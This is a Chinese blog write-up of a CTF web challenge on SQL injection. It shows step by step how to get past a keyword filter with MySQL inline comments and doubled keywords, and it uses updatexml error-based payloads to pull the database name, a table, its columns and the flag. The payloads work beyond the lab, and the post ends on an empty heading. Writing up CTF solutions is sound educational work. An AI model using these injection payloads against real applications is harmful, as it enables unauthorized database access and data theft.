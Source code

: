 ```yaml
---
title: 实验吧 web writeup
date: 2018-04-18 19:03:31
tags:
---
```

本篇博客连续更新实验吧的web篇解题思路。
<!--more -->


# 简单的SQL注入

在ID框 输入1，有返回信息。

	ID: 1
	name: baloteli

输入 `'`，报错。

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

然后输入所有关键字信息，看到底过滤了什么。

```
1 and or union select from where = information_schema table_name table_schema column_name order by information_schema.tables --+ /**/ // # %00
```

得到信息：

	ID: 1 or   = information_schema table_name information_schema.tables    /**/ //

看来屏蔽了不少关键字。

对于过滤，可以考虑 `内联注释`、`双重关键字` 、 `大小写混用` 、 `编码` 。

`大小写混用` 不好使。


这里尝试注入 `1' or '1'='1`，得到正常信息，怀疑sql语句为：
```
select * from xx where id='xxx'
```

## 采用 `报错注入` + `内联注释` 方式。

### 内联注释

采用 `/*! code */` 来执行我们的SQL语句。


比如一个过滤器过滤了：
```
union,where, table_name, table_schema, =, and information_schema
```

这些都是我们内联注释需要绕过的目标。所以通常利用内联注释进行如下方式绕过：
```
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()-- -
```

这里我们需要的语句是
```
1' or updatexml(1,concat('~',(select database() LIMIT 0,1),'~'),3) or '1'='1  
```

```
1' or updatexml(1,concat('~',(/*!select*/ database() LIMIT 0,1),'~'),3) or '1'='1  
```

得到反馈信息：

	XPATH syntax error: '~web1~'


查表名字：

```
1'or updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

```
1'or updatexml(1,concat('~',(/*!select*/  table_name  /*!from*/ information_schema.tables /*!where*/ /*!table_schema*/='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

这里报错了！

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '='web1' limit 0,1),'~'),3) or '1'='1'' at line 1

明明在前面的验证中， `table_schema` 是被过滤的呀，添加了内联注释也不行？

在尝试了`1 /*!table_schema*/` 之后发现，果然被过滤掉了。

那采取 `双重关键字` 。 `table_schema` 换成 `table_schtable_schemaema`

输入 `1 table_schtable_schemaema` 得到 `>ID: 1  table_schema`。很好。

```
1'or updatexml(1,concat('~',(/*!select*/  table_name  /*!from*/ information_schema.tables /*!where*/ /*!table_schtable_schemaema*/='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

拿到表格

	XPATH syntax error: '~flag~'

之后继续拿字段。
```
1'or updatexml(1,concat('~',(/*!select*/  column_name /*!from*/ information_schema.columns /*!where*/ table_name='flag' LIMIT 0,1),'~'),3) or '1'='1  
```

输入后，发现 `column_name` 、 `information_schema.columns` 都被过滤了，好奇怪。拿只好用 `双重关键字` 方法了。
```
1'or updatexml(1,concat('~',(/*!select*/  colucolumn_namemn_name  /*!from*/ infinformation_schema.columnsormation_schema.columns /*!where*/ table_name='flag' LIMIT 0,1),'~'),3) or '1'='1  
```

	XPATH syntax error: '~flag~'
得到表的字段：`flag`, `id`

直接获取 `flag`:

```
1'or updatexml(1,concat('~',(/*!select*/  flag  /*!from*/ flag LIMIT 0,1),'~'),3) or '1'='1
```

	XPATH syntax error: '~flag{Y0u_@r3_5O_dAmn_90Od}~'


## `双重关键字`



